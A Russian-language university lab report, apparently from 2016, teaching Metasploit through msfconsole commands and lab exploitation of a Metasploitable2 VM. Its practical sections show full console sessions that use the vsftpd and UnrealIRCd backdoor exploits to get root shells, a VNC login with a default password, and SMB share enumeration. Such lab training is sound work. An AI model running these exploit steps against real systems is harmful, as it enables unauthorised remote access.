\documentclass[10pt,a4paper,titlepage]{article}
\usepackage{amsmath}
\usepackage{amsfonts}
\usepackage{amssymb}
\usepackage[OT1]{fontenc}
\usepackage[utf8]{inputenc}
\usepackage[russian]{babel}
\usepackage{listings}
\usepackage{graphicx}
\usepackage{hyperref}
\hypersetup{
    colorlinks,
    citecolor=black,
    filecolor=black,
    linkcolor=black,
    urlcolor=blue
}
\begin{document}

%--titlepage-----
\begin{titlepage}
  \begin{center}
    \large
    \textbf{Федеральное государственное автономное образовательное учреждение\\
    Высшего профессионального образования}

    \vspace{0.25cm}

    Санкт-Петербургский политехнический университет
    \vspace{0.25cm}
    
    Институт компьютерных наук и технологий
    \vspace{0.25cm}
    
    Кафедра компьютерных систем и программных технологий
    \vfill

    \textbf{\textsc{Лабораторная работа №4}}\\[5mm]
    
    {\LARGE Инструмент тестов на проникновение Metasploit}
  \bigskip
    
\end{center}
\vfill

\newlength{\ML}
\settowidth{\ML}{«\underline{\hspace{0.7cm}}» \underline{\hspace{2cm}}}
\hfill\begin{minipage}{0.4\textwidth}
  Выполнил студент\\ группы 53501/3\\
  \underline{\hspace{\ML}} П.\,П.~Жук\\
  «\underline{\hspace{0.7cm}}» \underline{\hspace{2cm}} 2016 г.
\end{minipage}%
\bigskip

\hfill\begin{minipage}{0.4\textwidth}
  Проверил преподаватель\\
  \underline{\hspace{\ML}}\\ К.\,Д.~Вылегжанина\\
  «\underline{\hspace{0.7cm}}» \underline{\hspace{2cm}} 2016 г.
\end{minipage}%
\vfill

\begin{center}
  Санкт-Петербург\\ 2016 г.
\end{center}
\end{titlepage}
%---------------

\tableofcontents
\newpage

\section{Цель работы}
Изучить основные аспекты работы с инструментом тестов на проникновение Metasploit.

\section{Задание}
\begin{enumerate}
	\item Изучить
	
\begin{enumerate}
	\item Изучить базовые понятия, используя документацию: auxiliary, payload, exploit, shellcode, nop, encoder
    \item Запустить msfconsole, узнать список доступных команд (help)
    \item Базовые команды search, info, load, use
    \item Команды по работе с эксплоитом
    \item Команды по работе с БД
    \item GUI оболочка Armigate
    \item GUI web-клиент
\end{enumerate}

    \item Практическое задание: описать последовательность действий для выполнения следующих задач:
    
\begin{enumerate}
    \item Получить консоль, используя уязвимость в vsftpd
    \item Получить консоль, используя уязвимость в irc
   	\item Подключиться к VNC-серверу, получить доступ к консоли
    \item Получить список директорий в общем доступе по протоколу SMB
    \item Armigate Hail Mary
    \item Изучить три файла с исходным кодом эксплоитов или скриптов на ruby и описать, что в них происходит
\end{enumerate}


\end{enumerate}

\section{Ход работы}
\subsection{Изучить}
\subsubsection{Изучить базовые понятия, используя документацию: auxiliary, payload, exploit, shellcode, nop, encoder}
Metasploit Framework – инструмент для создания, тестирования и использования эксплойтов. Metasploit имеет модульную структуру. Каждая задача, которую может выполнять Metasploit Framework определена внутри некоторого модуля. Существует несколько типов \href{https://help.rapid7.com/metasploit/index.html#framework/gsg-msf.html%3FTocPath%3DWorking%2520with%2520the%2520Framework%7C_____0}{модулей}.

\begin{itemize}
\item Auxiliary — вспомогательный модуль не выполняющий действий, относящихся напрямую ко взлому. Данный модуль, например, может заниматься сканированием.
\item Payload — код, который выполняется после того, как был получен контроль над системой.
\item Exploit — код, который позволяет использовать уязвимость в системе для предоставления доступа к ней.
\item Shellcode — код, который передаёт управление командной оболочке (shell). 
\item NOP — инструкция ассемблера, которая не производит никаких действий. 
\item \href{https://help.rapid7.com/metasploit/index.html#payloads/payload-generator.html?Highlight=encoder}{Encoder} — удаляет из payload "плохие" символы, которые могут привести к невозможности выполнять код. Напрмиер, нулевые байты, пробелы, табуляции итд.
\end{itemize}

\subsubsection{Запустить msfconsole, узнать список доступных команд (help)}
\begin{verbatim}
root@kali:~# msfconsole
                                                  

 ______________________________________________________________________________
|                                                                              |
|                          3Kom SuperHack II Logon                             |
|______________________________________________________________________________|
|                                                                              |
|                                                                              |
|                                                                              |
|                 User Name:          [   security    ]                        |
|                                                                              |
|                 Password:           [               ]                        |
|                                                                              |
|                                                                              |
|                                                                              |
|                                   [ OK ]                                     |
|______________________________________________________________________________|
|                                                                              |
|                                                        http://metasploit.pro |
|______________________________________________________________________________|


Trouble managing data? List, sort, group, tag and search your pentest data
in Metasploit Pro -- learn more on http://rapid7.com/metasploit

       =[ metasploit v4.11.8-                             ]
+ -- --=[ 1519 exploits - 880 auxiliary - 259 post        ]
+ -- --=[ 437 payloads - 38 encoders - 8 nops             ]
+ -- --=[ Free Metasploit Pro trial: http://r-7.co/trymsp ]

msf > help

Core Commands
=============

    Command       Description
    -------       -----------
    ?             Help menu
    advanced      Displays advanced options for one or more modules
    back          Move back from the current context
    banner        Display an awesome metasploit banner
    cd            Change the current working directory
    color         Toggle color
    connect       Communicate with a host
    edit          Edit the current module with $VISUAL or $EDITOR
    exit          Exit the console
    get           Gets the value of a context-specific variable
    getg          Gets the value of a global variable
    grep          Grep the output of another command
    help          Help menu
    info          Displays information about one or more modules
    irb           Drop into irb scripting mode
    jobs          Displays and manages jobs
    kill          Kill a job
    load          Load a framework plugin
    loadpath      Searches for and loads modules from a path
    makerc        Save commands entered since start to a file
    options       Displays global options or for one or more modules
    popm          Pops the latest module off the stack and makes it active
    previous      Sets the previously loaded module as the current module
    pushm         Pushes the active or list of modules onto the module stack
    quit          Exit the console
    reload_all    Reloads all modules from all defined module paths
    rename_job    Rename a job
    resource      Run the commands stored in a file
    route         Route traffic through a session
    save          Saves the active datastores
    search        Searches module names and descriptions
    sessions      Dump session listings and display information about sessions
    set           Sets a context-specific variable to a value
    setg          Sets a global variable to a value
    show          Displays modules of a given type, or all modules
    sleep         Do nothing for the specified number of seconds
    spool         Write console output into a file as well the screen
    threads       View and manipulate background threads
    unload        Unload a framework plugin
    unset         Unsets one or more context-specific variables
    unsetg        Unsets one or more global variables
    use           Selects a module by name
    version       Show the framework and console library version numbers


Database Backend Commands
=========================

    Command           Description
    -------           -----------
    creds             List all credentials in the database
    db_connect        Connect to an existing database
    db_disconnect     Disconnect from the current database instance
    db_export         Export a file containing the contents of the database
    db_import         Import a scan result file (filetype will be auto-detected)
    db_nmap           Executes nmap and records the output automatically
    db_rebuild_cache  Rebuilds the database-stored module cache
    db_status         Show the current database status
    hosts             List all hosts in the database
    loot              List all loot in the database
    notes             List all notes in the database
    services          List all services in the database
    vulns             List all vulnerabilities in the database
    workspace         Switch between database workspaces

\end{verbatim}

Видно, что команд довольно много. Отдельно выделены команды для работы с БД.

\subsubsection{Базовые команды search, info, load, use}
\begin{itemize}
\item search - позволяет найти модуль;
\end{itemize}
Синтаксис:
\begin{verbatim}
$ search <search operator>:<search term>
\end{verbatim}
Примеры:
\begin{verbatim}
msf > search platform:Windows

Matching Modules
================

   Name                                                                   Disclosure Date  Rank       Description
   ----                                                                   ---------------  ----       -----------
   auxiliary/gather/ie_uxss_injection                                     2015-02-01       normal     MS15-018 Microsoft Internet Explorer 10 and 11 Cross-Domain JavaScript Injection
   auxiliary/gather/mantisbt_admin_sqli                                   2014-02-28       normal     MantisBT Admin SQL Injection Arbitrary File Read
   auxiliary/gather/mongodb_js_inject_collection_enum                     2014-06-07       normal     MongoDB NoSQL Collection Enumeration Via Injection
   auxiliary/gather/ms14_052_xmldom                                       2014-09-09       normal     MS14-052 Microsoft Internet Explorer XMLDOM Filename Disclosure
   auxiliary/scanner/ftp/bison_ftp_traversal                              2015-09-28       normal     BisonWare BisonFTP Server 3.5 Directory Traversal Information Disclosure
   auxiliary/scanner/ftp/konica_ftp_traversal                     
   
msf > search type:exploit

Matching Modules
================

   Name                                                                   Disclosure Date  Rank       Description
   ----                                                                   ---------------  ----       -----------
   exploit/aix/local/ibstat_path                                          2013-09-24       excellent  ibstat $PATH Privilege Escalation
   exploit/aix/rpc_cmsd_opcode21                                          2009-10-07       great      AIX Calendar Manager Service Daemon (rpc.cmsd) Opcode 21 Buffer Overflow
   exploit/aix/rpc_ttdbserverd_realpath                                   2009-06-17       great      ToolTalk rpc.ttdbserverd _tt_internal_realpath Buffer Overflow (AIX)
   exploit/android/adb/adb_server_exec                                    2016-01-01      

msf > search author:hd

Matching Modules
================

   Name                                                           Disclosure Date  Rank       Description
   ----                                                           ---------------  ----       -----------
   auxiliary/admin/backupexec/dump                                                 normal     Veritas Backup Exec Windows Remote File Access
   auxiliary/admin/backupexec/registry                                             normal     Veritas Backup Exec Server Registry Access
   auxiliary/admin/edirectory/edirectory_dhost_cookie                              normal     Novell eDirectory DHOST Predictable Session Cookie


msf > search name:ms08-067

Matching Modules
================

   Name                                 Disclosure Date  Rank   Description
   ----                                 ---------------  ----   -----------
   exploit/windows/smb/ms08_067_netapi  2008-10-28       great  MS08-067 Microsoft Server Service Relative Path Stack Corruption
\end{verbatim}
\begin{itemize}
\item info - вывод информации о модуле;
\end{itemize}
\begin{verbatim}
sf > info exploit/windows/smb/ms08_067_netapi

       Name: MS08-067 Microsoft Server Service Relative Path Stack Corruption
     Module: exploit/windows/smb/ms08_067_netapi
   Platform: Windows
 Privileged: Yes
    License: Metasploit Framework License (BSD)
       Rank: Great
  Disclosed: 2008-10-28

Provided by:
  hdm <x@hdm.io>
  Brett Moore <brett.moore@insomniasec.com>
  frank2 <frank2@dc949.org>
  jduck <jduck@metasploit.com>

Available targets:
  Id  Name
  --  ----
  0   Automatic Targeting
  1   Windows 2000 Universal
  2   Windows XP SP0/SP1 Universal
  3   Windows 2003 SP0 Universal
  4   Windows XP SP2 English (AlwaysOn NX)
....
  70  Windows 2003 SP2 Japanese (NO NX)
  71  Windows 2003 SP2 French (NO NX)
  72  Windows 2003 SP2 French (NX)

Basic options:
  Name     Current Setting  Required  Description
  ----     ---------------  --------  -----------
  RHOST                     yes       The target address
  RPORT    445              yes       Set the SMB service port
  SMBPIPE  BROWSER          yes       The pipe name to use (BROWSER, SRVSVC)

Payload information:
  Space: 408
  Avoid: 8 characters

Description:
  This module exploits a parsing flaw in the path canonicalization 
  code of NetAPI32.dll through the Server Service. This module is 
  capable of bypassing NX on some operating systems and service packs. 
  The correct target must be used to prevent the Server Service (along 
  with a dozen others in the same process) from crashing. Windows XP 
  targets seem to handle multiple successful exploitation events, but 
  2003 targets will often crash or hang on subsequent attempts. This 
  is just the first version of this module, full support for NX bypass 
  on 2003, along with other platforms, is still in development.

References:
  http://cvedetails.com/cve/2008-4250/
  http://www.osvdb.org/49243
  http://technet.microsoft.com/en-us/security/bulletin/MS08-067
  http://www.rapid7.com/vulndb/lookup/dcerpc-ms-netapi-netpathcanonicalize-dos

\end{verbatim}
\begin{itemize}
\item load - загрузка плагина;
\end{itemize}
\begin{verbatim}
msf > load
Usage: load <path> [var=val var=val ...]

Loads a plugin from the supplied path.  If path is not absolute, first looks
in the user's plugin directory (/root/.msf8/plugins) then
in the framework root plugin directory (/usr/share/metasploit-framework/plugins).
The optional var=val options are custom parameters that can be passed to plugins.

msf > load '/usr/share/metasploit-framework/plugins/alias.rb' 
[*] Successfully loaded plugin: alias
\end{verbatim}
\begin{itemize}
\item use - загрузка модуля по его имени;
\end{itemize}
\begin{verbatim}
msf > use
Usage: use module_name

The use command is used to interact with a module of a given name.
\end{verbatim}
\subsubsection{Команды по работе с эксплоитом}
Рассмотрим команды работы с эксплоитом на примере эксплоита 
\begin{verbatim}
exploit/multi/http/phpmoadmin_exec
\end{verbatim}

Данный эксплоит использует небезопасную функцию eval() в phpMyAdmin. Для использования данного эксплоита выполним команду use.

\begin{verbatim}
msf > use exploit/multi/http/phpmoadmin_exec
msf exploit(phpmoadmin_exec) > 
\end{verbatim}
Команда show options покажет параметры эксплоита.
\begin{verbatim}
msf exploit(phpmoadmin_exec) > show options

Module options (exploit/multi/http/phpmoadmin_exec):

   Name       Current Setting  Required  Description
   ----       ---------------  --------  -----------
   Proxies                     no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOST                       yes       The target address
   RPORT      80               yes       The target port
   SSL        false            no        Negotiate SSL/TLS for outgoing connections
   TARGETURI  /                yes       The URI path of the PHPMoAdmin page
   VHOST                       no        HTTP server virtual host

Exploit target:

   Id  Name
   --  ----
   0   PHPMoAdmin
\end{verbatim}
Видно, что из необходимых параметров нужно установить адрес хоста. Установим этот параметр командой set(виртуальная машина Metasploitable2 имеет адрес 192.168.226.134) и запустим эксплоит командой exploit.
\begin{verbatim}
msf exploit(phpmoadmin_exec) > set RHOST 192.168.226.134
RHOST => 192.168.226.134
msf exploit(phpmoadmin_exec) > exploit

[*] Started reverse TCP handler on 192.168.226.135:4444 
[*] Executing payload...
[*] Exploit completed, but no session was created.
\end{verbatim}
Эксплоит был выполнен успешно, для выхода нужно набрать команду back.
\begin{verbatim}
msf exploit(phpmoadmin_exec) > back
\end{verbatim}
\subsubsection{Команды по работе с БД}
Команда db\_status показывает статус текущей базы данных.
\begin{verbatim}
msf > db_status
[*] postgresql connected to msf
\end{verbatim}
С помощью hosts можно посмотреть хосты, которые хранятся в текущей базе данных.
\begin{verbatim}
msf > hosts

Hosts
=====

address          mac                name  os_name  os_flavor  os_sp  purpose  info  comments
-------          ---                ----  -------  ---------  -----  -------  ----  --------
192.168.226.134  00:0c:29:b8:13:c4        Unknown                    device         
\end{verbatim}
Аналогично services выдает список всех сервисов, хранящихся в базе.
\begin{verbatim}
msf > services

Services
========

host             port  proto  name          state  info
----             ----  -----  ----          -----  ----
192.168.226.134  21    tcp    ftp           open   
192.168.226.134  22    tcp    ssh           open   
192.168.226.134  23    tcp    telnet        open   
192.168.226.134  25    tcp    smtp          open   
192.168.226.134  53    tcp    domain        open   
192.168.226.134  80    tcp    http          open   
192.168.226.134  111   tcp    rpcbind       open   
192.168.226.134  139   tcp    netbios-ssn   open   
192.168.226.134  445   tcp    microsoft-ds  open   
192.168.226.134  512   tcp    exec          open   
192.168.226.134  513   tcp    login         open   
192.168.226.134  514   tcp    shell         open   
192.168.226.134  1099  tcp    rmiregistry   open   
192.168.226.134  1524  tcp    ingreslock    open   
192.168.226.134  2049  tcp    nfs           open   
192.168.226.134  2121  tcp    ccproxy-ftp   open   
192.168.226.134  3306  tcp    mysql         open   
192.168.226.134  5432  tcp    postgresql    open   
192.168.226.134  5900  tcp    vnc           open   
192.168.226.134  6000  tcp    x11           open   
192.168.226.134  6667  tcp    irc           open   
192.168.226.134  8180  tcp    unknown       open   
\end{verbatim}
С помощью команды workspace можно посмотреть имеющиеся окружения для пользователя, создать новое (-a), переключиться между ними.
\begin{verbatim}
msf > workspace
* default
msf > workspace -a another_workspace
[*] Added workspace: another_workspace
msf > workspace
  default
* another_workspace
msf > hosts

Hosts
=====

address  mac  name  os_name  os_flavor  os_sp  purpose  info  comments
-------  ---  ----  -------  ---------  -----  -------  ----  --------

msf > services

Services
========

host  port  proto  name  state  info
----  ----  -----  ----  -----  ----
\end{verbatim}
Видно, что в новом оркужении нет ни просканированных хостов, ни сервисов.\\

Переключимся на предыдущее окружение и попробуем экспортировать базу данных в файл командой db\_export.
\begin{verbatim}
msf > db_export output_db
[*] Starting export of workspace default to output_db [ xml ]...
[*]     >> Starting export of report
[*]     >> Starting export of hosts
[*]     >> Starting export of events
[*]     >> Starting export of services
[*]     >> Starting export of web sites
[*]     >> Starting export of web pages
[*]     >> Starting export of web forms
[*]     >> Starting export of web vulns
[*]     >> Starting export of module details
[*]     >> Finished export of report
[*] Finished export of workspace default to output_db [ xml ]...
\end{verbatim}
По умолчанию экспорт происходит в формате xml. Получившийся файл output\_db приложен к отчету.

Также можно использовать db\_nmap (см. предыдущую лаб. работу) и некоторые другие команды.

\subsubsection{GUI оболочка Armigate}
Armigate - это программное обеспечение с открытым кодом которое организует процесс взлома для Metasploit. Он может работать также вместе с Nmap. Вся суть этой программы заключается в том, что она дает интерфейс, облегчает использование Metasploit и ускоряет процесс взлома.

При запуске необходимо указать настройки для подключения к metasploit. Можно оставить по умолчанию (рис. \ref{ris:image1}).
\begin{figure}[h]	\center{
\includegraphics[width=0.7\linewidth]{pics/1.png}}
\caption{Соединение с metasploit}
\label{ris:image1}
\end{figure}

Главное окно Armigate показывает слева все доступные модули, справа окно с доступными хостами, снизу же отображается консоль metasploit (рис. \ref{ris:image2}).
\begin{figure}[h]	\center{
\includegraphics[width=0.85\linewidth]{pics/2.png}}
\caption{Armigate}
\label{ris:image2}
\end{figure}
\newpage
Armigate позволяет использовать nmap, например, поиск хостов (рис. \ref{ris:image3}).
\begin{figure}[h]	\center{
\includegraphics[width=0.85\linewidth]{pics/3.png}}
\caption{Поиск хостов}
\label{ris:image3}
\end{figure}

Результат работы представлен на рисунке \ref{ris:image4}.
\begin{figure}[h]	\center{
\includegraphics[width=0.85\linewidth]{pics/4.png}}
\caption{Результат поиска хостов}
\label{ris:image4}
\end{figure}

После поиска атак в меню Attacks -> Find Attacks на каждом из хостов через контекстное меню доступен список возможных атак (рис. \ref{ris:image5}).
\begin{figure}[h]	\center{
\includegraphics[width=0.85\linewidth]{pics/5.png}}
\caption{Доступные атаки}
\label{ris:image5}
\end{figure}

\subsubsection{GUI web-клиент}
Веб интерфейс поставляется вместе с Metasploit Community, но данный пакет с некоторого времени не идет в комплекте с Kali Linux, развивается отдельно силами Rapid7 и не поддерживает пакет metasploit в Kali (\href{https://www.offensive-security.com/metasploit-unleashed/armitage-setup/}{источник}).
\subsection{Практическое задание: описать последовательность действий для выполнения следующих задач}

\subsubsection{Получить консоль, используя уязвимость в vsftpd}
Получим доступ к консоли, используя эксплоит exploit/unix/ftp/vsftpd\_234\_backdoor. Также воспользуемся Armigate.\\

Откроем контекстное меню на хосте Metasploitable2, выберем эксплоит с нужным именем, откроется окно с описанием эксплоита и свойствами (рис. \ref{ris:image6})
\begin{figure}[h]	\center{
\includegraphics[width=0.85\linewidth]{pics/6.png}}
\caption{vsftpd\_234\_backdoor}
\label{ris:image6}
\end{figure}
Видно, что необходимые параметры уже установлены, в частности стоит нужный адрес хоста. Нажимаем launch и видим в консоли следующий текст.
\begin{verbatim}
msf > use exploit/unix/ftp/vsftpd_234_backdoor
msf exploit(vsftpd_234_backdoor) > set TARGET 0
TARGET => 0
msf exploit(vsftpd_234_backdoor) > set PAYLOAD cmd/unix/interact
PAYLOAD => cmd/unix/interact
msf exploit(vsftpd_234_backdoor) > set LHOST 192.168.226.135
LHOST => 192.168.226.135
msf exploit(vsftpd_234_backdoor) > set LPORT 11674
LPORT => 11674
msf exploit(vsftpd_234_backdoor) > set RPORT 21
RPORT => 21
msf exploit(vsftpd_234_backdoor) > set RHOST 192.168.226.134
RHOST => 192.168.226.134
msf exploit(vsftpd_234_backdoor) > exploit -j
[*] Exploit running as background job.
[*] Banner: 220 (vsFTPd 2.3.4)
[*] USER: 331 Please specify the password.
[+] Backdoor service has been spawned, handling...
[+] UID: uid=0(root) gid=0(root)
[*] Found shell.
[*] Command shell session 1 opened (192.168.226.135:44004 -> 192.168.226.134:6200) at 2016-06-15 12:27:18 -0400
\end{verbatim}
Появился доступ к консоли, а в контектном меню хоста появился соответствующий пункт меню (рис.\ref{ris:image7}).
\begin{figure}[h]	\center{
\includegraphics[width=0.85\linewidth]{pics/7.png}}
\caption{Доступ к консоли}
\label{ris:image7}
\end{figure}
Подключимся к консоли и запустим команду ifconfig. Видно, что адрес соответсвует адресу машины Metasploitable2.
\begin{verbatim}
$ ifconfig
eth0      Link encap:Ethernet  HWaddr 00:0c:29:b8:13:c4  
          inet addr:192.168.226.134  Bcast:192.168.226.255  Mask:255.255.255.0
          inet6 addr: fe80::20c:29ff:feb8:13c4/64 Scope:Link
          UP BROADCAST RUNNING MULTICAST  MTU:1500  Metric:1
          RX packets:30540 errors:0 dropped:0 overruns:0 frame:0
          TX packets:25613 errors:0 dropped:0 overruns:0 carrier:0
          collisions:0 txqueuelen:1000 
          RX bytes:1984761 (1.8 MB)  TX bytes:1533395 (1.4 MB)
          Interrupt:19 Base address:0x2000 
\end{verbatim}

\subsubsection{Получить консоль, используя уязвимость в irc}
Воспользуемся эксплоитом exploit/unix/irc/unreal\_ircd\_3281\_backdoor. И в этот раз запустим все без графического интерфейса.

Строчки ниже показываеют использование эксплоита, задание адреса хоста, и его выполнение, в результате которого мы получаем доступ к консоли. Затем выполняем команду ifconfig, чтобы убедиться в том, что доступ осуществлен корректно и закрываем сессию.
\begin{verbatim}
msf > use exploit/unix/irc/unreal_ircd_3281_backdoor
msf exploit(unreal_ircd_3281_backdoor) > set RHOST 192.168.226.134
RHOST => 192.168.226.134
msf exploit(unreal_ircd_3281_backdoor) > exploit

[*] Started reverse TCP double handler on 192.168.226.135:4444 
[*] Connected to 192.168.226.134:6667...
    :irc.Metasploitable.LAN NOTICE AUTH :*** Looking up your hostname...
    :irc.Metasploitable.LAN NOTICE AUTH :*** Couldn't resolve your hostname; using your IP address instead
[*] Sending backdoor command...
[*] Accepted the first client connection...
[*] Accepted the second client connection...
[*] Command: echo 5oCFjODezSVzsvxg;
[*] Writing to socket A
[*] Writing to socket B
[*] Reading from sockets...
[*] Reading from socket B
[*] B: "5oCFjODezSVzsvxg\r\n"
[*] Matching...
[*] A is input...
[*] Command shell session 1 opened (192.168.226.135:4444 -> 192.168.226.134:40593) at 2016-06-15 12:58:51 -0400

ifconfig
eth0      Link encap:Ethernet  HWaddr 00:0c:29:b8:13:c4  
          inet addr:192.168.226.134  Bcast:192.168.226.255  Mask:255.255.255.0
          inet6 addr: fe80::20c:29ff:feb8:13c4/64 Scope:Link
          UP BROADCAST RUNNING MULTICAST  MTU:1500  Metric:1
          RX packets:30571 errors:0 dropped:0 overruns:0 frame:0
          TX packets:25645 errors:0 dropped:0 overruns:0 carrier:0
          collisions:0 txqueuelen:1000 
          RX bytes:1988086 (1.8 MB)  TX bytes:1538678 (1.4 MB)
          Interrupt:19 Base address:0x2000 

lo        Link encap:Local Loopback  
          inet addr:127.0.0.1  Mask:255.0.0.0
          inet6 addr: ::1/128 Scope:Host
          UP LOOPBACK RUNNING  MTU:16436  Metric:1
          RX packets:3752 errors:0 dropped:0 overruns:0 frame:0
          TX packets:3752 errors:0 dropped:0 overruns:0 carrier:0
          collisions:0 txqueuelen:0 
          RX bytes:1815909 (1.7 MB)  TX bytes:1815909 (1.7 MB)

^C
Abort session 1? [y/N]  y

[*] 192.168.226.134 - Command shell session 1 closed.  Reason: User exit
\end{verbatim}

\subsubsection{Подключиться к VNC-серверу, получить доступ к консоли}
VNC-сервер на атакуемой машине работает на порту 5900.
\begin{verbatim}
msf > nmap 192.168.226.134 -p 5900
[*] exec: nmap 192.168.226.134 -p 5900


Starting Nmap 7.01 ( https://nmap.org ) at 2016-06-15 14:10 EDT
Nmap scan report for 192.168.226.134
Host is up (0.00031s latency).
PORT     STATE SERVICE
5900/tcp open  vnc
MAC Address: 00:0C:29:B8:13:C4 (VMware)

Nmap done: 1 IP address (1 host up) scanned in 0.29 seconds
\end{verbatim}
Для доступа к нему воспользуемся модулем auxiliary/scanner/vnc/vnc\_login. 

Запустим данный модуль, установим параметру RHOSTS адрес атакуемой машины, после чего выполним команду exploit.
\begin{verbatim}
msf > use auxiliary/scanner/vnc/vnc_login
msf auxiliary(vnc_login) > set RHOSTS 192.168.226.134
RHOSTS => 192.168.226.134
msf auxiliary(vnc_login) > exploit

[*] 192.168.226.134:5900 - Starting VNC login sweep
[+] 192.168.226.134:5900 - LOGIN SUCCESSFUL: :password
[*] Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
\end{verbatim}
Видно, что удалось успешно подключиться с паролем password. Запустим клиент VNC с указанным паролем.
\begin{verbatim}
msf auxiliary(vnc_login) > back
msf > vncviewer 192.168.226.134:5900
[*] exec: vncviewer 192.168.226.134:5900

Connected to RFB server, using protocol version 3.3
Performing standard VNC authentication
Password: 
Authentication successful
Desktop name "root's X desktop (metasploitable:0)"
VNC server default format:
  32 bits per pixel.
  Least significant byte first in each pixel.
  True colour: max red 255 green 255 blue 255, shift red 16 green 8 blue 0
Using default colormap which is TrueColor.  Pixel format:
  32 bits per pixel.
  Least significant byte first in each pixel.
  True colour: max red 255 green 255 blue 255, shift red 16 green 8 blue 0
\end{verbatim}
Подключение удалось успешно осуществить и получить доступ к консоли, резульатат показан на рисунке (рис.\ref{ris:image8}).
\begin{figure}[h]	\center{
\includegraphics[width=1.05\linewidth]{pics/8.png}}
\caption{Подключение к VNC-серверу}
\label{ris:image8}
\end{figure}

\subsubsection{Получить список директорий в общем доступе по протоколу SMB}
Воспользуемся модулем auxiliary/scanner/smb/smb\_enumshares.
\begin{verbatim}
msf > use auxiliary/scanner/smb/smb_enumshares
msf auxiliary(smb_enumshares) > set RHOSTS 192.168.226.134
RHOSTS => 192.168.226.134
msf auxiliary(smb_enumshares) > exploit

[+] 192.168.226.134:139 - print$ - (DISK) Printer Drivers
[+] 192.168.226.134:139 - tmp - (DISK) oh noes!
[+] 192.168.226.134:139 - opt - (DISK) 
[+] 192.168.226.134:139 - IPC$ - (IPC) IPC Service (metasploitable server (Samba 3.0.20-Debian))
[+] 192.168.226.134:139 - ADMIN$ - (IPC) IPC Service (metasploitable server (Samba 3.0.20-Debian))
[*] Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed

\end{verbatim}
Видно список общих директорий, доступных по протоколу SMB, а также два средства IPC.

\subsubsection{Armigate Hail Mary}
